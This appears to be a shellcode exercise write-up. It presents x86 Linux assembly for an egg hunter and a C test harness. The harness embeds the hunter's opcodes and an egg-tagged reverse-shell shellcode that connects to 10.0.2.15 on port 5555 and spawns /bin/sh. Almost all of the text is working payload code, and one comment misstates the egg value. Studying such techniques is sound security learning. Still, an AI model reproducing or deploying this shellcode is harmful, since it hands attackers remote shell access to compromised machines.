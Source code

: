 	    xor eax, eax ; initialization of the EAX register
	    mov esi, eax ; initialization of the ESI register
	
	    ; Egg initialization
	    mov esi, dword 0x50905090

    next_page : 
        or dx, 0xfff ; or operation to go to the next page, 4095


    next_address :
	    inc edx ; the value become 4096 = 0x1000
        pusha ; save the current registers
        lea ebx, [edx + 0x4] ; load the address at the first address of the current page
        mov al, 0x21 ; 0x21 is the heximal value of 33
        int 0x80 ; access syscal
	
	    cmp al, 0xf2 ; Check if the return value is a EFAULT
	    popa ; get the registers back
	    je short next_page ; in case of EFAULT, go to the next page
	
	    cmp [edx], esi ; compare the value at the address with our egg
	    jnz next_address ; jump to the next_address if not equals
	    cmp [edx + 0x4], esi ; compare the value of the next 4 bytes with our egg (0x90509050)

	    jnz next_address ; jump to the next address if not equals

	    jmp edx ; jump to the shellcode if the egg is found



#### C code 

    #include <stdio.h>
    #include <string.h>

    unsigned char EggHunter [] = \
    "\x31\xc0\x89\xc6\xbe\x90\x50\x90\x50\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x32\x75\xee\x39\x72\x04\x75\xe9\xff\xe2";

    unsigned char shellcode [] = \
        "\x90\x50\x90\x50\x90\x50\x90\x50" // Egg
        "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
        "\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68"
        "\x02\x00\x15\xb3\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
        "\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
        "\x52\x53\x89\xe1\xb0\x0b\xcd\x80";

    main() {
        printf("Shellcode Length: %d\n", strlen(EggHunter));

        int (*ret)() = (int(*)())EggHunter;

        ret();
    }




